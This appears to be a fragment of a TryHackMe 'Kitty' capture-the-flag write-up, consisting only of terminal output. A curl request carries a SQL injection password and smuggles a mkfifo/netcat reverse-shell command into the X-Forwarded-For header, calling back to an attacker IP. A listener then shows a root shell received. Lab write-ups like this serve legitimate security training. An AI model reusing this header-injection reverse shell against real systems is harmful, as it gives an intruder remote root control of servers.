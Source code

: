 ```
kitty@kitty:/var/www/development$ curl -k "http://127.0.0.1:8080/index.php" -d "username=bla&password=bla' OR 1=1 -- -" --header "X-Forwarded-For:;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.50.195 4445 >/tmp/f;"

SQL Injection detected. This incident will be logged!
```
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Kitty]
└─$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.11.50.195] from (UNKNOWN) [10.10.140.249] 39256
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
